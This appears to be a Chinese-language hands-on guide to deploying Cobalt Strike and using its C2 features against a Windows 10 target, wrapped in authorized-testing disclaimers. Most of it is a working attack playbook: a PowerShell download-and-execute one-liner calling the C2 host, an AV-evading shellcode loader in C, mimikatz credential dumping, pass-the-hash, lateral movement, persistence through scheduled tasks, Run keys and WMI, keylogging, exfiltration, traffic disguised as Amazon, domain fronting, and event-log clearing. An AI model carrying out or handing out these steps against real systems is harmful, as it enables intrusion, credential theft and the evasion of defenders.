


# CobaltStrike 部署与 C2 功能实战指南

> 本文以合法授权的渗透测试环境为背景，系统讲解 CobaltStrike（简称 CS）框架的部署、Windows 10 Payload 生成及各 C2 功能的实战运用。

::: warning 法律声明
本文内容仅供**合法授权场景**下的网络安全研究使用。未经授权实施渗透测试可能构成**非法侵入计算机信息系统罪**，请严格遵守《网络安全法》《刑法》相关规定。
:::

## 一、CobaltStrike 概述

CobaltStrike 是一款由 Fortra（原 HelpSystems）开发的商业化高级威胁模拟工具，广泛应用于红队演练与渗透测试。其核心架构为 **客户端/团队服务器（Client/Team Server）** 模式：



| 组件 | 说明 |
|------|------|
| **Team Server** | 服务端，负责监听、管理 Beacon、记录日志，运行在 Linux 服务器上 |
| **Client** | 客户端 GUI，供操作者连接 Team Server 进行可视化操作 |
| **Beacon** | 植入目标主机的 Payload，实现 C2 通信与功能执行 |
| **Malleable C2** | 可定制 C2 通信流量特征，伪装为合法 HTTP 流量 |

## 二、团队服务器部署

### 2.1 环境准备

| 角色 | 系统 | IP | 说明 |
|------|------|-----|------|
| Team Server | Ubuntu 22.04 | 192.168.1.100 | CS 服务端 |
| 攻击者客户端 | Windows 10 | 192.168.1.50 | CS 客户端 GUI |
| 目标主机 | Windows 10 | 192.168.1.200 | 受害者机器 |

### 2.2 服务端启动

```bash
# 赋予执行权限
chmod +x teamserver

# 启动团队服务器
# 用法: ./teamserver <host> <password> [/path/to/c2.profile] [kill-date] [metadata]
./teamserver 192.168.1.100 MyStrongPass123
```

启动成功后输出：

```plaintext
[*] Generating X509 certificate and keystore (for SSL)
[*] X509 certificate loaded successfully
[*] Starting Cobalt Strike team server
[*] Loading C2 profiles
[*] Configuring Hidden Cobra malleable C2 profile
[*] Team server online
[*] Listening on 0.0.0.0:50050
```

### 2.3 客户端连接

1. Windows 10 上运行 `cobaltstrike.bat` 启动客户端
2. 填写连接信息：

| 字段 | 值 |
|------|-----|
| Host | 192.168.1.100 |
| Port | 50050 |
| User | operator1 |
| Password | MyStrongPass123 |

3. 点击 Connect，指纹确认后进入主界面

## 三、监听器配置

监听器（Listener）是 Beacon 回连的入口，需在生成 Payload 前配置。

### 3.1 创建 HTTP 监听器

`Cobalt Strike → Listeners → Add`

| 参数 | 值 | 说明 |
|------|-----|------|
| Name | http_listener | 监听器名称 |
| Payload | Beacon HTTP | 通信协议 |
| HTTP Hosts | 192.168.1.100 | 回连地址 |
| HTTP Port | 80 | 回连端口 |
| HTTP Host (Stager) | 192.168.1.100 | Stager 地址 |

### 3.2 常用监听器类型对比

| 监听器类型 | 协议 | 适用场景 | 隐蔽性 |
|------------|------|----------|--------|
| **Beacon HTTP** | HTTP | 最常用，穿透防火墙 | 中（可加密 HTTPS） |
| **Beacon HTTPS** | HTTPS | 加密通信，防嗅探 | 高 |
| **Beacon DNS** | DNS | 出网受限场景 | 高（DNS 隧道） |
| **Beacon SMB** | SMB | 内网横向，命名管道 | 高（不走网络） |
| **Beacon TCP** | TCP | 内网直连 | 中 |
| **Foreign** | 外部 | 对接 Metasploit / Empire | - |

## 四、生成 Windows 10 Payload

### 4.1 Payload 类型对比

| Payload 类型 | 格式 | 适用场景 |
|--------------|------|----------|
| **Raw** | `.raw` 原始 shellcode | 配合自定义加载器 |
| **Windows Executable** | `.exe` | 直接执行 |
| **Windows Executable (Stageless)** | `.exe` 无阶段 | 不依赖 Stager，体积大 |
| **Windows Service** | `.exe` 服务型 | 配合 `psexec` 横向 |
| **Windows DLL** | `.dll` | DLL 劫持 / 注入 |
| **PowerShell** | `.ps1` | 内存执行，无文件落地 |
| **HTA** | `.hta` | 钓鱼投递 |

### 4.2 生成 EXE Payload

`Attacks → Packages → Windows Executable`

| 参数 | 值 |
|------|-----|
| Listener | http_listener |
| Output Type | Windows EXE |
| Architecture | x64 |
| Stage | stager（默认） |

生成后获得 `beacon.exe`，在 Windows 10 目标主机执行即可上线。

### 4.3 生成 PowerShell Payload（推荐隐蔽方式）

`Attacks → Packages → PowerShell Command`

```powershell
# 生成的 PowerShell 一句话，可在目标内存中执行，无文件落地
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.1.100:80/a'))"
```

### 4.4 生成 Stageless Payload

Stageless Payload 将完整 Beacon 内嵌，无需 Stager 二次下载，适合网络受限环境。

`Attacks → Packages → Windows Executable (Stageless)`

| 参数 | 值 |
|------|-----|
| Listener | http_listener |
| Output Type | Windows EXE |
| Architecture | x64 |

### 4.5 自定义 Raw Shellcode 加载器

生成 Raw 格式 shellcode 后，可使用自定义加载器执行，规避 AV 查杀：

```c
// loader.c —— 仅用于授权测试环境
#include <windows.h>
#include <stdio.h>

unsigned char shellcode[] = "\xfc\x48\x83\xe4\xf0\xe8..."; // 替换为 Raw shellcode

int main() {
    void* exec = VirtualAlloc(0, sizeof(shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(exec, shellcode, sizeof(shellcode));
    ((void(*)())exec)();
    return 0;
}
```

```bash
# 编译
x86_64-w64-mingw32-gcc loader.c -o loader.exe -lws2_32
```

## 五、Beacon 上线与 C2 功能实战

### 5.1 上线确认

Payload 执行后，Beacon 回连 Team Server，客户端界面出现主机条目：

```plaintext
beacon> help

Beacon Commands
===============
    Command          Description
    ------------     -----------
    browserpivot     Browser pivot attack
    bypassuac        Bypass UAC
    cd               Change directory
    checkin          Call home and post data
    cleararp         Clear ARP cache
    clipboard        Get clipboard contents
    covertvpn        Deploy Covert VPN client
    desktop          View and interact with target's desktop
    download         Download a file
    uploads          Upload a file
    execute          Execute a program
    execute-assembly Execute a local .NET program
    exit             Exit the beacon
    getuid           Get user ID
    hashdump         Dump password hashes
    help             Help menu
    inline-execute   Execute a Beacon Object File
    jump             Jump to a remote host
    kerberos         Kerberos ticket operations
    keylogger        Start a keylogger
    kill             Kill a process
    lp               List printers
    ls               List files
    make_token       Create a token to pass credentials
    mimikatz         Run mimikatz
    mkdir            Make a directory
    mode             Change data transfer mode
    mv               Move a file
    net              Network and host enumeration tool
    note             Assign a note to this Beacon
    portscan         Port scan
    powershell       Execute PowerShell
    ppid             Set parent PID for spawned processes
    ps               Show process list
    psexec           Use a service to jump to a host
    psexec_psh       Use PowerShell to jump to a host
    psinject         Inject PowerShell into a process
    pth              Pass-the-hash
    pwd              Get current directory
    reg              Query the registry
    remote-exec      Execute a command on a remote host
    rev2self         Revert to original token
    rm               Remove a file
    rportfwd         Reverse port forward
    run              Execute a program
    runas            Execute a program as another user
    runu             Execute a program under another PID
    screenshot       Take a screenshot
    setenv           Set an environment variable
    shell            Run a command via cmd.exe
    shspawn          Spawn a process and inject shellcode
    sleep            Set sleep delay
    socks            Start SOCKS4a server
    socks stop       Stop SOCKS4a server
    spawn            Spawn a new Beacon
    spawnas          Spawn a Beacon as another user
    spawnto          Set process to spawn Beacon into
    spawnu           Spawn a Beacon under another PID
    ssh              SSH to a host
    ssh-key          SSH to a host with a key
    steal_token      Steal a token from a process
    timestomp        Timestomp a file
    upload           Upload a file
    wget             Download a file via HTTP
    winrm            Use WinRM to jump to a host
    wmi              Use WMI to jump to a host
```

### 5.2 基础信息收集

```bash
# 获取当前用户权限
beacon> getuid
[*] You are NT AUTHORITY\SYSTEM

# 查看进程列表
beacon> ps

# 查看网络配置
beacon> shell ipconfig /all

# 查看路由表
beacon> shell route print

# 查看 ARP 缓存（发现内网存活主机）
beacon> shell arp -a

# 查看当前目录
beacon> pwd
```

### 5.3 文件操作

```bash
# 列出文件
beacon> ls C:\Users

# 下载文件
beacon> download C:\Users\victim\Desktop\secret.txt

# 上传文件
beacon> upload /opt/tools/mimikatz.exe

# 删除文件
beacon> rm C:\Users\victim\Desktop\test.txt

# 切换目录
beacon> cd C:\Windows\System32
```

### 5.4 命令执行

```bash
# 通过 cmd.exe 执行
beacon> shell whoami /all

# 通过 PowerShell 执行
beacon> powershell Get-NetUser | select name

# 执行 .NET 程序（内存加载，不落地）
beacon> execute-assembly /opt/tools/Rubeus.exe klist

# 以指定父进程执行（规避 EDR 检测）
beacon> ppid 1234
beacon> run notepad.exe
```

### 5.5 权限提升

```bash
# Bypass UAC（需管理员权限）
beacon> bypassuac http_listener

# 使用 Mimikatz 抓取凭证
beacon> mimikatz sekurlsa::logonpasswords

# 导出 SAM 哈希
beacon> hashdump

# Pass-the-Hash 横向
beacon> pth DOMAIN\administrator <NTLM_HASH>
```

### 5.6 内网横向移动

```bash
# 端口扫描内网
beacon> portscan 192.168.1.0/24 445,3389,22,80

# 通过 SMB 横向（需凭证）
beacon> jump psexec 192.168.1.30 smb_listener

# 通过 WMI 横向
beacon> jump wmi 192.168.1.30 smb_listener

# 通过 WinRM 横向
beacon> jump winrm 192.168.1.30 smb_listener

# 创建令牌传递凭证
beacon> make_token DOMAIN\user Password123
beacon> jump psexec 192.168.1.30 smb_listener
```

### 5.7 端口转发与代理

```bash
# 反向端口转发（将目标端口转发到本地）
beacon> rportfwd 8080 192.168.1.50 80

# 启动 SOCKS4a 代理（将目标内网代理出来）
beacon> socks 1080

# 在攻击者机器上配置 ProxyChain 使用代理
# 编辑 /etc/proxychains4.conf
# socks4 127.0.0.1 1080

# 通过代理访问内网
proxychains nmap -sT -Pn 10.0.0.5
proxychains curl http://10.0.0.5:8080
```

### 5.8 屏幕监控与键盘记录

```bash
# 截图
beacon> screenshot

# 查看桌面（VNC 方式）
beacon> desktop 1

# 键盘记录
beacon> keylogger

# 剪贴板获取
beacon> clipboard
```

### 5.9 权限维持

```bash
# Spawn 新 Beacon（持久化）
beacon> spawn http_listener

# 计划任务持久化
beacon> shell schtasks /create /tn "UpdateService" /tr "C:\Users\Public\beacon.exe" /sc hourly /ru SYSTEM

# 注册表自启动
beacon> shell reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v UpdateService /t REG_SZ /d "C:\Users\Public\beacon.exe" /f

# WMI 事件订阅持久化
beacon> powershell Import-Module .\persistence.ps1; Install-WmiPersistence
```

### 5.10 数据外传

```bash
# 下载目标文件到 Team Server
beacon> download C:\Users\victim\Documents\data.zip

# 通过 HTTP 下载文件到目标
beacon> wget http://192.168.1.100/tools.zip

# 通过 DNS 隧道外传数据（需 DNS 监听器）
beacon> mode dns-txt
beacon> upload /opt/data/exfil.txt
```

## 六、通信隐蔽与流量伪装

### 6.1 Malleable C2 Profile

Malleable C2 Profile 可自定义 Beacon 通信的 HTTP/HTTPS 流量特征，伪装为合法流量：

```plaintext
# amazon.profile —— 伪装为 Amazon 流量
set sample_name "Amazon";
set sleeptime "30000";
set jitter "20";
set useragent "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36";

http-get {
    set uri "/api/products/";
    client {
        header "Accept" "application/json";
        metadata {
            base64url;
            prepend "session=";
            header "Cookie";
        }
    }
    server {
        header "Content-Type" "application/json";
        output {
            base64url;
            print;
        }
    }
}

http-post {
    set uri "/api/orders/";
    client {
        header "Accept" "application/json";
        id {
            base64url;
            prepend "order_id=";
            header "Cookie";
        }
        output {
            base64url;
            print;
        }
    }
    server {
        header "Content-Type" "application/json";
        output {
            base64url;
            print;
        }
    }
}
```

```bash
# 启动时加载 Profile
./teamserver 192.168.1.100 MyStrongPass123 /opt/c2-profiles/amazon.profile
```

### 6.2 域名前置（Domain Fronting）

通过高信誉 CDN 域名隐藏真实 C2 流量：

```bash
# 在 Listener 中配置
HTTP Hosts: cdn.microsoft.com
HTTP Host (Stager): cdn.microsoft.com
HTTP Host Header: your-c2-domain.com
```

### 6.3 Sleep 与 Jitter 调优

```bash
# 设置回连间隔为 30 秒，抖动 20%
beacon> sleep 30 20

# 紧急模式（快速回连）
beacon> sleep 0
```

## 七、防御检测与对抗

### 7.1 常见检测点

| 检测维度 | 检测方法 | 对抗策略 |
|----------|----------|----------|
| **网络流量** | IDS/IPS 检测 C2 特征 | Malleable C2 + 域名前置 |
| **进程行为** | EDR 检测可疑进程创建 | PPID 欺骗 + 进程注入 |
| **内存特征** | 内存扫描 Beacon 特征 | BOF + 内存加密 |
| **文件落地** | AV 扫描 Payload 文件 | PowerShell 内存执行 |
| **注册表** | 监控自启动项 | WMI 事件订阅 |
| **日志审计** | Windows 事件日志分析 | 痕迹清理 |

### 7.2 OPSEC 最佳实践

```bash
# 设置 SpawnTo 进程（伪装为合法进程）
beacon> spawnto x64 C:\Windows\System32\svchost.exe

# 设置父进程 PID
beacon> ppid 632  # explorer.exe

# 清理日志
beacon> shell wevtutil cl System
beacon> shell wevtutil cl Security
beacon> shell wevtutil cl Application

# 退出时清理
beacon> exit
```

## 八、实战流程总结



## 九、注意事项

::: danger 重要提醒
1. **仅限授权使用**：所有操作必须在获得书面授权的测试环境中进行
2. **遵守法律法规**：未经授权的渗透测试可能触犯《刑法》第 285 条
3. **数据保护**：测试中获取的敏感数据应立即匿名化处理，测试结束后销毁
4. **负责任披露**：发现漏洞后 24 小时内通过 CNCERT/CC 渠道报送
:::

## 参考

- CobaltStrike 官方文档：https://hstechdocs.helpsystems.com
- Malleable C2 Profile 语法：https://www.cobaltstrike.com/help-malleable-c2
- ATT&CK 框架对应：T1059（Command Execution）、T1071（Application Layer Protocol）